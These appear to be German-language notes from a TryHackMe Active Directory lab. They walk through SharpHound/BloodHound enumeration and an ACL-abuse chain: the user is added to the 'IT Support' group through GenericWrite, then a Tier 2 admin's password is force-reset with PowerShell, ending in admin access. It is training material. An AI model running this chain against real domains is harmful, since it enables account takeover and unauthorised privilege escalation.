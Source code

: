 **Sharphound laufen lassen um das gesamte AD zu mappen**
>sharphound.exe -c ALL -d za.tryhackme.loc --excludedcs

**Neo4j starten - Programm das Datenbanken grafisch darstellen kann**
>sudo neo4j console

**Bloodhound starten - In Verbindung mit Neo4j und Sharphound können wir uns mit Bloodhound jetzt das AD grafisch darstellen lassen**
>bloodhound --no-sandbox

**Wir sehen auf dem Bild, dass unser User zur Gruppe Domain User gehört. Domain User hat die ACE "GenericWrite" auf die Gruppe IT Support. Die IT Support Gruppe wiederum kann "ForceChangePassword" auf die Tier 2 Admins ausführen.**

![Alt text](images/image.png)

**Wir fügen unseren User der Gruppe "IT Support" hinzu**
>Add-ADGroupMember -Identity "IT Support" -Members irene.leach

**Nach einigen Minuten (ACEs müssen sich erstmal aktualisieren) können wir den "ForceChangePassword" auf einen Tier 2 Admin ausführen**
>$password = ConvertTo-SecureString "password.123" -AsPlainText -Force

>Set-ADAccountPassword -Identity "t2_ross.bird" -Reset -NewPassword $password

## Wir haben Adminzugriff auf THMWRK1


# Exploiting Kerberos Delegation

Wenn man über AD Delegation redet, dann man meint man damit in der Regel die Kerberos Delegation, nicht die Permission Delegation.
